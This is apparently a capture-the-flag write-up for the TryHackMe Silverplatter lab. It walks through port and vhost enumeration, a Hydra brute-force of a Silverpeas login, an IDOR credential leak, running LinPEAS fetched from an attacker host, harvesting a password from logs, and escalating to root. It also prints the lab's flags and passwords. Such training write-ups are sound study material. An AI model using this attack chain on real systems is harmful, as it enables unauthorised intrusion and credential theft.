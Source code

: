 # 🛡️ Penetration Tester Methodology

* **IP Target:** `10.10.203.80`
* **Machine Name:** `Silverplatter.thm`
* **TryHackMe Lab:** [Silverplatter](https://tryhackme.com/room/silverplatter)

---

### 🖥️ Host Enumeration
- **Update** `/etc/hosts`
- To simplify access using a domain name instead of IP:
```bash
$ echo "10.10.203.80 Silverplatter.thm" | sudo tee -a /etc/hosts
```

- **Ping the Host**
- Check if the host is reachable:
```bash
$ ping -c 3 Silverplatter.thm
```
- Result:
```matlab
3 packets transmitted, 3 received, 0% packet loss
```
- The host is up and responsive.

---

### 🔍 PortScanning & Service Enumeration

- **Nmap Scan**
```bash
$ nmap -p- Silverplatter.thm
$ nmap -p 22,80,8080 -A Silverplatter.thm
```

- **RustScan**
```bash
# Install RustScan tool
$ sudo wget https://github.com/bee-san/RustScan/releases/download/2.4.1/x86-linux-rustscan.zip
$ sudo unzip x86-linux-rustscan.zip
$ echo $PATH
/usr/local/bin
$ sudo mv rustscan /usr/local/bin/
```
- We ran it on the target IP address `10.10.203.80` to perform an aggressive scan
```bash
$ rustscan -a Silverplatter.thm -- -A
```
- Scan Results:
    - `22`: SSH
    - `80`: HTTP (nginx)
    - `8080`: HTTP Proxy

---

### Web Application Enumeration
- **SSH (22)**
```bash
$ ssh root@Silverplatter.thm
```
- SSH uses password based authentication.

---

### 📁 Directory & VHost Enumeration
- **FFUF – Directory Bruteforce**
```bash
$ ffuf -u http://Silverplatter.thm/FUZZ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
- Result
```yaml
assets                  [Status]
```

- **FFUF – Virtual Host Enumeration**
```bash
$ ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.Silverplatter.thm" -u http://Silverplatter.thm/ --fs 14124
```
- Result
```yaml
clienti, way, madmax
```

---

### 🌐 Website Observations
* **CMS:** Silverpeas
* **Found Username:** scr1ptkiddy
* **Screenshots:**
![alt text](image.png)

- Login page
![alt text](image-1.png)

---

### 🚀 Exploitation Phase

* **📄 Create Custom Password List with cewl**
```bash
$ sudo apt install cewl -y
$ cewl http://Silverplatter.thm > custom-password.txt
``` 

* **🔐 Test Login Form (Manual)**
- Test login form.
![alt text](image-2.png)

```http
POST /silverpeas/AuthenticationServlet HTTP/1.1
Host: 10.10.203.80:8080
Content-Type: application/x-www-form-urlencoded
...
Login=scr1ptkiddy&Password=test&DomainId=0
```

* **💣 Hydra – Brute-Force Login**
```bash
$ hydra -l scr1ptkiddy -P custom-password.txt Silverplatter.thm -s 8080 http-post-form "/silverpeas/AuthenticationServlet:Login=^USER^&Password=^PASS^&DomainId=0:Login or password incorrect"
```
- Found Credentials
```
login: scr1ptkiddy   password: adipiscing
```


- **Caido**
![alt text](image-3.png)
![alt text](image-4.png)

- **✅ Login Success Screenshot**
- Use the credentials that I found to login the form.
![alt text](image-5.png)

---

### 🆔 IDOR Discovery & Credential Dump
- IDOR found by inspecting requests
- Found another set of credentials:
```
Username: tim
Password: cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```

---

### SSH Access as tim
```bash
$ ssh tim@Silverplatter.thm
```

- **🪪 Post Exploitation – user.txt**
```bash
tim@silver-platter:~$ ls
user.txt
tim@silver-platter:~$ cat user.txt 
THM{c4ca4238a0b923820dcc509a6f75849b}
```

* **🔐 Sudo Privileges** 
```bash
tim@silver-platter:~$ sudo -l
[sudo] password for tim: 
Sorry, user tim may not run sudo on silver-platter.
```

* **👥 Escalating to tyler**
- Check `/etc/passwd`
```bash
$ tim@silver-platter:~$ cat /etc/passwd
tyler:x:1000:1000:root:/home/tyler:/bin/bash
```

* **🛡️ ADM Group Privileges**
```bash
tim@silver-platter:~$ id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
```

* **🧪 LinPEAS Enumeration**
```bash
# Attacker
$ wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
python3 -m http.server 80

# Target
tim@silver-platter:~$ wget http://<attacker-ip>/linpeas.sh
tim@silver-platter:~$ chmod +x linpeas.sh
tim@silver-platter:~$ ./linpeas.sh
```

- **🔍 Found Docker Logs with Password**
```bash
tim@silver-platter:/tmp$ cd /var/log
tim@silver-platter:/var/log$ grep -ir "password"
# tyler password: _Zd_zx7N823/
```

---

### 🔐 Privilege Escalation to Root

* **Switch to Tyler**
```bash
tim@silver-platter:/home$ su tyler
# Password: _Zd_zx7N823/

tyler@silver-platter:/home$ sudo su

root@silver-platter:/home# whoami
root

root@silver-platter:/home# ls
tim  tyler

root@silver-platter:/home# cd /root/

root@silver-platter:~# ls
root.txt  snap  start_docker_containers.sh

root@silver-platter:~# cat root.txt
THM{098f6bcd4621d373cade4e832627b4f6}
```

---